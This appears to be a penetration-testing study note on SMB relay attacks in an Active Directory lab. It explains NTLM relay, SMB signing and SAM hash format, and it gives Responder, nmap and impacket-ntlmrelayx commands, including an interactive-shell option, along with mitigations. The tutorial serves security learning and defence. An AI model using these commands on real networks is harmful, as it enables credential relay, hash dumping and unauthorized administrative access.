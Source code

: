 # SMB Relay

### What is SMB?

SMB (Server Message Block) is a network file-sharing protocol primarily used in Windows environments. It allows systems to share files, printers, and other resources over a network and supports authentication to access those resources.

### What can go wrong here?

An SMB relay attack occurs when an attacker intercepts NTLM authentication traffic intended for one machine and relays it to another without cracking the credentials. Instead of capturing hashes for offline attacks, the attacker reuses the authentication in real time to gain unauthorized access, often achieving code execution or administrative privileges on the relayed system.

SMB is vulnerable to relay attacks because NTLM authentication does not bind the client’s authentication attempt to the intended server. Without SMB signing, the protocol does not verify the integrity and authenticity of the messages, allowing attackers to insert themselves into the authentication process

### Attack Requirements

SMB signing must be disabled or not enforced on the target system, the relayed user must have local administrative rights for meaningful impact, and credentials cannot be relayed back to the machine they originated from. Since NTLM is reused directly, password strength has no effect on the attack’s success. Notably, most Windows workstations by default do not enforce SMB signing, making them susceptible

### SMB Relay in AD

#### Step 1: Identifying workstations without SMB Signing Enforced

```
nmap --script=smb2-security-mode.nse -p445 <target-ip> -Pn
```

#### Step 2: Setting up the attack

We first have to disable SMB and HTTP in Responder, as these will be forwarded to nlmrelayx.

```
sudo vim /etc/responder/Responder.conf

-- switch SMB and HTTP Off

sudo responder -I eth0 -dwv
```

```
impacket-ntlmrelayx -tf targets.txt -smb2support
```

```
-- to start a shell
impacket-ntlmrelayx -tf targets.txt -smb2support -i for shell
```

#### Step 3: An Event Occurs and Credentials Get Relayed

When an event (such as LLMNR poisoning) occurrs, responder will capture this event, pass it to ntlmrelayx, which will relay the credentials to the targets in our targets file.

In our lab we simulate an event by pointing to the attacker machine ip `\\10.0.2.15` on THEPUNISHER fcastle machine (fcastle is admin on SPIDERMAN so we can authenticate there and dump the local SAM hashes)

The SAM (Security Account Manager) is a database in Windows that stores local user account information, including hashed representations of passwords. When attackers “dump the SAM,” they extract these password hashes to attempt cracking or use them in pass-the-hash attacks.

Each entry in a dumped SAM file typically follows the format:
username:RID:LM hash:NT hash:::

- Username is the account name (e.g., Administrator, Guest, or a local user).

- RID (Relative Identifier) is a unique number associated with each account. For example, 500 usually corresponds to the built-in Administrator account, 501 to Guest, and 1000+ to user-created accounts.

- LM hash is the old LAN Manager hash of the password. In modern Windows systems, LM hashes are usually disabled by default and appear as the placeholder value aad3b435b51404eeaad3b435b51404ee.

- NT hash is the NTLM hash of the password, derived from the actual user password. This is the primary target for attackers since it can be cracked offline or used directly in authentication attacks.

### Mitigations

Mitigation strategies include enabling and enforcing SMB signing on all systems, disabling NTLM where possible, and using Kerberos as the preferred authentication method.
Restricting administrative privileges, segmenting networks, and applying the principle of least privilege reduce the value of relayed credentials.

#### References

- [https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
